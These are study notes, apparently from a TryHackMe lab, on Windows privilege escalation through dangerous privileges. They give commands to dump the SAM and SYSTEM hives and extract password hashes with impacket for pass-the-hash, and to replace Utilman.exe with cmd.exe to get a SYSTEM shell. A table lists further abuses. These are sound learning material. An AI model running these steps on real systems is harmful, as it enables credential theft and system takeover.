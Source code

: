 ## Abusing dangerous privileges
Each user has a set of assigned privileges that can be checked with the following command: `whoami /priv`.

A complete list of available privileges on Windows systems is available [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).
You can find a comprehensive list of exploitable privileges on the [Priv2Admin](https://github.com/gtworek/Priv2Admin/tree/master) Github project.

### SeBackup / SeRestore
Allow users to read and write to any file in the system, ignoring any `DACL` in place.
The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.

Having this power, an attacker can trivially escalate privileges on the system by using many techniques.
The one we will look at consists of copying the `SAM` and `SYSTEM registry hives` to extract the local Administrator's password hash.

1. We will need to open a command prompt using the "Open as administrator" option to use these privileges.
2. `whoami /priv`
3. Backup the `SAM` and `SYSTEM` hashes: `reg save hklm\system C:\Users\THMBackup\system.hive` & `reg save hklm\sam C:\Users\THMBackup\sam.hive`
4. This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method.
5. Use `impacket` to retrieve the users' password hashes: `python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL`.
6. Use the Administrator's hash to perform a `Pass-the-Hash attack` and gain access to the target machine with SYSTEM privileges.

### SeTakeOwnership
Allows a user to take `ownership of any object on the system`, including `files` and `registry keys`.

E.g: `utilman.exe`, a built-in Windows application used to provide Ease of Access options during the lock screen. Abuse it to escalate privileges this time.

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like.
As we can take ownership of any file, replacing it is trivial.

1. `takeown /f C:\Windows\System32\Utilman.exe`
2. `icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`
3. `copy cmd.exe utilman.exe`
4. Lock the screen and click the "Ease of Access" button to trigger `utilman`.

### Others / Summary
| Privilege | Description | Abuse |
|-|-|-|
| `SeImpersonatePrivilege` | Allows a process to impersonate another user. | Exploited in token impersonation attacks (e.g., `JuicyPotato`, `RoguePotato`) to escalate to SYSTEM. |
| `SeAssignPrimaryTokenPrivilege` | Allows a process to assign a token to a process. | Combined with SeImpersonatePrivilege for privilege escalation. |
| `SeCreateTokenPrivilege` | Allows a user to create new tokens. | Exploited to create a new SYSTEM token and elevate privileges. |
| `SeTakeOwnershipPrivilege` | Allows a user to take ownership of any object. | Can be used to take control of files or processes owned by SYSTEM. |
| `SeDebugPrivilege` | Allows debugging of any process, including SYSTEM processes. | Exploited to inject code into SYSTEM processes or access sensitive data in memory. |
| `SeLoadDriverPrivilege` | Allows loading of device drivers. | Exploited to load malicious drivers, which run in kernel mode (ring-0). |
| `SeRestorePrivilege` | Allows restoring files or directories regardless of permissions. | Used to overwrite critical files, bypassing NTFS permissions. |
